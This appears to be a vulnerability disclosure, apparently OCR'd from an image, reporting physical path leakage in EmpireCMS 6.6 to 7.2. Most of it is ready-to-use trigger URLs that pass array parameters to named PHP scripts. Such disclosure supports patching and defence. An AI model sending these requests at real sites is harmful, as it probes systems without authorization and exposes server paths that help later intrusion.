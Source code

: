 > EmpireCMS 7.0 :
> http://domain/e/admin/ecmseditor/infoeditor/epage/TranMore.php?InstanceName[]=kongxin&sinfo[]=kongxin&modtype[]=kongxin&infoid[]=kongxin&filepass[]=kongxin&classid[]=kongxin&showmod[]=kongxin&
>
> EmpireCMS 7.2 :
> http://domain/e/data/ecmseditor/infoeditor/epage/TranFile.php?filesize[]=kongxin&fname[]=kongxin&InstanceName[]=kongxin&filepass[]=kongxin&classid[]=kongxin&type[]=kongxin&showmod[]=kongxin&
>
>
>
> Fix suggestions:
> Modify the application source code to avoid information leakage.
>
> ------------------------------------------
>
> [VulnerabilityType Other]
> Physical path leaks
>
> ------------------------------------------
>
> [Vendor of Product]
> EmpireCMS
>
> ------------------------------------------
>
> [Affected Product Code Base]
> EmpireCMS - 6.6
> EmpireCMS - 7.0
> EmpireCMS - 7.2
>
> ------------------------------------------
>
> [Affected Component]
> FileMain.php , ShowPic.phpe , connect.php ,htmlspecialchars() expects parameter 1 to be string, Web site physical path leakage
>
> ------------------------------------------
>
> [Attack Type]
> Remote
>
> ------------------------------------------
>
> [Impact Information Disclosure]
> true
>
> ------------------------------------------
>
> [Attack Vectors]
> The vulnerability can be triggered by directly accessing the URL below:
> EmpireCMS 6.6 :
> http://domain/e/admin/tool/ShowPic.php?url[]=kongxin&pic_height[]=kongxin&pic_width[]=kongxin&picurl[]=kongxin&
> http://domain/e/action/ListInfo.php?totalnum[]=kongxin&page[]=kongxin&myorder[]=kongxin&orderby[]=kongxin&andor[]=kongxin&ph[]=kongxin&tempid[]=kongxin&line[]=kongxin&endtime[]=kongxin&starttime[]=kongxin&ztid[]=kongxin&ttid[]=kongxin&classid[]=kongxin&mid[]=kongxin&
>
> EmpireCMS 7.0 :
> http://domain/e/admin/ecmseditor/infoeditor/epage/TranMore.php?InstanceName[]=kongxin&sinfo[]=kongxin&modtype[]=kongxin&infoid[]=kongxin&filepass[]=kongxin&classid[]=kongxin&showmod[]=kongxin&
>
> EmpireCMS 7.2 :
> http://domain/e/data/ecmseditor/infoeditor/epage/TranFile.php?filesize[]=kongxin&fname[]=kongxin&InstanceName[]=kongxin&filepass[]=kongxin&classid[]=kongxin&type[]=kongxin&showmod[]=kongxin&